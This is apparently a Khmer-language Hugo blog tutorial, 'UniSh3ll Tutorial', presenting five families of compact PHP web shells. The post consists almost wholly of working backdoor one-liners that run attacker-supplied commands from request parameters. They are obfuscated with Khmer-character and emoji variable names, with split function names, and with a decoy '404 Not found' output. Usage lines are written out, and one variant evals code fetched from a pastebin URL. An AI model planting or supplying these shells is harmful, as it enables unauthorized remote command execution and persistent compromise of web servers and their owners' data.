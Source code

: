 ```yaml
---
title: "UniSh3ll Tutorial"
date: 2020-05-26T14:28:44+07:00
description: របៀបប្រើប្រាស់ Unish3ll គ្រួសាររបស់ Atom(s) Web Shell
draft: false
hideToc: false
enableToc: true
enableTocContent: false
author: thik
authorEmoji: 🐱
tags:
- php-webshell
categories:
- WebShell
series:
- WebApp
image: images/feature3/code-file.png
---
```


#### UniSh3ll-I

{{< highlight php "linenos=table" >}}
<?=$_=$_GET;$_[_]($_[0]); //.php?_=system&0=id;ls+-la
{{< / highlight >}}

#### UniSh3ll-II

{{< highlight bash "linenos=table" >}}
echo -e "<?=\`\$_REQUEST[_]\`?>" > unish3ll.php
{{< / highlight >}}


{{< highlight bash "linenos=table" >}}
echo -e "<?=\`\$_REQUEST[_]\`?>\r<?='404 Not found';?>" > unish3ll.php
{{< / highlight >}}

<b>របៀបប្រើ៖</b> <i>curl localhost/unish3ll.php -d _=ls+-la</i>

#### UniSh3ll-III

{{< highlight php "linenos=table" >}}
<?=$ឋ=$_GET;if($ឋ[ត]!=null)$ឋ[ល]==រងារ&$ឋ[ម]($ឋ[ប]); //.php?ត=true&ល=រងារ&ម=passthru&ប=ls
{{< / highlight >}}

{{< highlight php "linenos=table" >}}
<?=$ឋ=$_GET;if($ឋ[ត]!=null)$ឋ[ល]==រងារ&$ឋ[ម]($ឋ[ប]); eval('?>'.file_get_contents($ឋ[ដ]));?>
{{< / highlight >}}

<b>របៀបប្រើ៖</b> <i>unish3ll.php?ត=true&ល=រងារ&ម=passthru&ប=id&ដ=https://pastebin.com/raw/xxxxx</i>

#### UniSh3ll-IV

{{< highlight php "linenos=table" >}}
<?=$a="sy";$b="stem";$c=$a.$b; $c("uname -a"); //get method
{{< / highlight >}}

#### UniSh3ll-V

{{< highlight php "linenos=table" >}}
<?=$_[]=@(($ក=@$_REQUEST).($😘=@$ក[0]).($😘($ក[1]))); //curl -v '127.0.0.1:8080/unish3ll.php?0=system&1=la+-la'
{{< / highlight >}}
